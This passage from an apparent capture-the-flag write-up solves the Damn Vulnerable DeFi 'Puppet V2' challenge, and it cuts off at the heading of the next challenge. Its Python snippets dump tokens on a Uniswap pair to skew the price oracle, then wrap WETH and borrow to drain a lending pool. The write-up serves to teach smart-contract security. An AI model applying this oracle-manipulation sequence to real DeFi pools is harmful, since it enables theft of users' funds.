 ```py
token.approve(uniswap_router.address, 2**256 - 1, _fromAttacker)
```

Then exchange all the tokens in our wallet for ETH:

```py
uniswap_router.swapExactTokensForETH(
    ether_to_wei(10000), 
    9.92, 
    [token.address, weth.address],
    attacker.address,
    web3.eth.get_block('latest').timestamp * 2,
    _fromAttacker
)
```

`swapTokensForExactTokens()` can also be used, as we're going to use WETH anyway, but we would have to wrap some extra ETH to reach the right amount to drain the pool anyway, so I decided to just use `swapExactTokensForETH()`.

Then obtain what amount of WETH we must deposit to drain the pool:

```py
amount = lending_pool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)
```

Deposit this same amount into the WETH contract:

```py
weth.deposit(_fromAttacker | value_dict(amount))
```

Now with the WETH in hand we must approve the spending limit of WETH for the PuppetV2Pool contract to the `amount` obtained before (or more):

```py
weth.approve(lending_pool.address, amount, _fromAttacker)
```

Given that the PuppetV2Pool calls `transferFrom()` in `borrow()`:

```cs
_weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);
```

Then just call borrow to drain the pool:

```py
lending_pool.borrow(POOL_INITIAL_TOKEN_BALANCE, _fromAttacker)
```

And we should receive all the DVT tokens from the pool.

***

## Free rider

#### Challenge description
